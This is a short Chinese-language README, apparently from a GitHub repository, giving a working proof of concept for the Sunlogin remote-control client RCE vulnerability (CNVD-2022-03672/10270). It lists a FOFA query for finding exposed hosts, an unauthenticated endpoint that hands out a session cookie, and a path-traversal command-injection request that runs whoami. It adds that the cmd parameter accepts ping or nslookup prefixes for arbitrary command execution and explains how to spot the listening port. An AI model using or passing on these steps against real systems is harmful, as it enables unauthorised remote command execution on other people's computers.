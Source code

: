 # 向日葵RCE漏洞（CNVD-2022-03672/10270）
## 资产搜索
fofa body="Verification failure"
## POC
1. 获取cookie  
`/cgi-bin/rpc?action=verify-haras`  
![](img/poc1.png)
2. RCE
添加cookie进行poc执行
`/check?cmd=ping../../../../../../../../../../../windows/system32/whoami`  
![](img/poc2.png)
## 其他
- 参数cmd的值以ping或者nslookup开头时可以构造命令实现远程命令执行利用
- 客户端默认开启一个大于40000的端口号，端口号较大的重点关注